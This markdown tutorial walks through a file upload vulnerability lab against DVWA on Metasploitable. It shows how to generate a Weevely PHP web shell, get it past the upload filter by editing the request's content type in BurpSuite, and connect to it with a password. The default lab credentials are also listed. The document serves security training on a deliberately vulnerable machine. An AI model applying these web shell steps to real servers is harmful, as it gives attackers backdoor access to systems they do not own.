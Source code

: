 #  File Upload Vulnerabilities

## Things we need for the Lab:
1. Kali linux
2. Metasploitable linux
3. weevely
4. Terminator
5. BurpSuite

<strong>Metasploitable linux</strong> The intentionally vulnerable target machine for evaluating Metasploit.

 * Make a new target machine in virtual box and try to login using the default username & password 
   * username: msfadmin
   * password :msfadmin 
> Download page:
```sh
https://information.rapid7.com/download-metasploitable-2017.html
```


<strong>Terminator</strong> A Linux Terminal Emulator With Multiple Terminals In One Window
Install Terminator In Linux

```sh
sudo apt-get install terminator
```

## Weevely
<strong>Featured snippet from the web</strong>
<i>Weevely is a stealth PHP web shell that simulate telnet-like connection. It is an essential tool for web application post exploitation, and can be used as stealth backdoor or as a web shell to manage legit web accounts, even free hosted ones.</i>

## Using Terminator try typing the following command In Weevely In Kali linux

* This command is used to create a 'shell.php' file.
```sh

kali@kali:~$ weevely generate 12345 /home/kali/shell.php

```
## Open the browser and try to connect to the Metasploitable linux.
   * After terminal opens type <mark>"ifconfig"</mark>
   * see for the inet address assigned to the machine and copy it.
   * Make sure the virtual machines are connect in a virtual network.
   * if not then goto virtual box preference>network>add virtual network
   ![file](https://github.com/rahulrbk/Docs/blob/master/filevuln/file.PNG)

## Coming back to Kali machine
  * type the ip address of metasploitable linux and press enter.
  * Goto the navigation and use the tool DVWA 
  * Access the dvwa using default username <mark>admin</mark> and password <mark>password</mark>
  * navigate to the upload section
  ![file1](https://github.com/rahulrbk/Docs/blob/master/filevuln/file1.png)
  > Try to upload the file which was previosly created 'shell.php' in medium security setting.
  ![file2](https://github.com/rahulrbk/Docs/blob/master/filevuln/file2.png)
  ## Now open BurpSuite 
     * Capture the packets making the intercept on 
     * Navigate to header section and change the file type to 'shell.php'
  ![file3](https://github.com/rahulrbk/Docs/blob/master/filevuln/file3.png)
    * And click on upload to see the changes
  ![file4](https://github.com/rahulrbk/Docs/blob/master/filevuln/file4.png) 
  > To check whether the file is uploaded or not
  >Goto Kali terminal and type the following command:   
```sh

kali@kali:~$ weevely http://10.0.2.4/dvwa/hackable/uploads/shell.php 12345

```
You will get the following Output:
![](https://github.com/rahulrbk/Docs/blob/master/filevuln/file5.png)
